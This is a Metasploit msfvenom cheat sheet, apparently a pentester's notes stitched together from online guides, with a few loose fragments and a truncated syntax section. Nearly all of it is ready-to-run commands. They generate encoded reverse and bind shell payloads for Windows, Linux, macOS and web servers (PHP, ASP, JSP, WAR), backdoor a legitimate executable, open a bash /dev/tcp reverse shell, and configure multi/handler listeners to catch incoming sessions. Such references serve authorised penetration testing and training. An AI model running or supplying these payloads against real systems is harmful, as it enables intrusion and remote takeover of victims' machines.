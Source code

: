 # msfvenom
Metasploit
 msfvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. Note: msfvenom has replaced both msfpayload and msfencode as of June 8th, 2015. The advantages of msfvenom are: One single tool Standardized command line options Increased speed…

The advantages of msfvenom are:

    One single tool
    Standardized command line options
    Increased speed


[Creating a Payload]

- msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python :: Windows
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > shell.exe  :: Windows
- msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.0.4 LPORT=443 > pyterpreter.py :: MAC OS X  - 100%
- msfvenom -a x86 --platform OSX -p osx/x86/isight/bind_tcp -b "\x00" -f elf -o /tmp/osxt2 :: Mac OS X
- msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.0.0.4  LPORT=4444 -f macho > osx_cam.dmg 
- msfvenom -a x86 --platform windows -p windows/messagebox TEXT="MSFU Example" -f raw > messageBox
- msfvenom -c messageBox2 -a x86 --platform Windows -p windows/shell/bind_tcp -f exe -o cookies.exe
- msfvenom -a x86 --platform windows -x sol.exe -k -p windows/messagebox lhost=192.168.101.133 -b "\x00" -f exe -o sol_bdoor.exe
- msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=consulting.example.org LPORT=4443 > metasploit_https.exe

=======
 OS X
=======

- msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.0.4 LPORT=443 > pyterpreter.py

if you wanted to execute a command to make the Mac text-to-speech command say something on the target computer, you would use the following in Meterpreter

- execute -f /bin/usr/say -a "hey there buddy"
- bash -i >& /dev/tcp/10.0.0.4/443 0>&1 2>&1

=========
 Sintax
=========

-p :: PAYLOAD
-f 

[Establishing a Listener]

- MSFCONSOLE
    - use /exploit/multi/handler
	- set payload windows/meterpreter/reverse_tcp
	- set LHOST <IP>
	- set LPORT 4444
	- set ExitOnSession false
	- exploit -j -z
	- sessions -l
	- sessions -i 2

======================
 Automating Payload
======================

- msfconsole -r msfremote_shell.rc

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT 443
set ExitOnSession false
exploit -j

[OUTPUT]

[*] Exploit running as background job.

[*] Started reverse TCP handler on X.X.X.179:4444 
[*] Starting the payload handler...




Active assets	
	- Identified 
	- Classified
	- Determine the objectives and priorities


A list of the most useful msfvenom payloads from Metasploit.
-------------------------------------------------------------

List payloads

msfvenom -l

Binaries

Linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Mac

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

Web Payloads

PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

Scripting Payloads

Python

msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl

msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

Linux Based Shellcode

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Windows Based Shellcode

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Mac Based Shellcode

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
https://www.offensive-security.com/metasploit-unleashed/msf-os/
http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/
http://netsec.ws/?p=331

